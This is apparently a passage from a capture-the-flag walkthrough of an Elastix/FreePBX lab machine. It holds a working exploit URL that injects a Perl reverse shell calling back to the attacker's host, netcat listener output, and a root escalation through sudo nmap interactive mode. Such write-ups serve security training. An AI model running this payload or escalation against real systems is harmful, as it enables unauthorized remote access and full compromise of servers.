 ```python



# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)

# On Elastix, once we have a shell, we can escalate to root:
# root@bt:~# nc -lvp 443
# listening on [any] 443 ...
# connect to [172.16.254.223] from voip [172.16.254.72] 43415
# id
# uid=100(asterisk) gid=101(asterisk)
# sudo nmap --interactive

# Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
# Welcome to Interactive Mode -- press h <enter> for help
# nmap> !sh
# id
# uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
```console
┌─[us-dedivip-1]─[10.10.14.75]─[htb-0xrogue@pwnbox-base]─[~/Downloads]
└──╼ [★]$ python2.7 18650.py 
```


We get a shell as the user asterisk.

```console
└──╼ [★]$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.1.226.
Ncat: Connection from 10.129.1.226:50594.
python -c 'import pty; pty.spawn("/bin/bash")'
bash-3.2$ id
id
uid=100(asterisk) gid=101(asterisk)
bash-3.2$ 
```
Running sudo -l confirms the exploit that nmap is exploitable as well as a bunch of other stuff like chmod.

```
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
```